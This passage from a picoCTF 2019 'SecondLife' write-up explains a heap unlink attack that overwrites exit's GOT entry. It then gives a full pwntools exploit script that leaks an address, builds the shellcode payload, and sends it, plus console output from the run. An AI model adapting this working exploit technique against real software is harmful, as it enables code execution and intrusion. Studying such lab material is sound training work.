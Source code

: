 The `unlink` macro allowed us to overwrite the .got.plt address of `exit` with the address of our shellcode. Notice that as a side-effect, a part of the buffer was overwritten. Since our shellcode is very short, it won't be corrupted. If it was longer, we would have had to use a trampoline as demonstrated in [Heap overflow](Heap_overflow.md).

Now, when we call `exit`, our shellcode gets called instead and gives us the flag.


```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/secondlife_0_1d09c6c834e9512daebaf9e25feedd53/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start()

io.recvuntil("Oops! a new developer copy pasted and printed an address as a decimal...\n")
address = int(io.recvline())
io.sendline("a")

log.info("Address of buffer: {}".format(hex(address)))
log.info("Address of exit(): {}".format(hex(exe.got["exit"])))
log.info("Address of win(): {}".format(hex(exe.symbols["win"])))

payload = p32(exe.got["exit"] - 12) + p32(address + 8) + asm('push {}; ret;'.format(hex(exe.symbols["win"])))
log.info("payload:\n{}".format(hexdump(payload)))

io.sendlineafter("You should enter the got and the shellcode address in some specific manner... an overflow will not be very useful...", payload)
print io.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/SecondLife# python exploit.py
[*] '/media/sf_CTFs/pico/SecondLife/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
```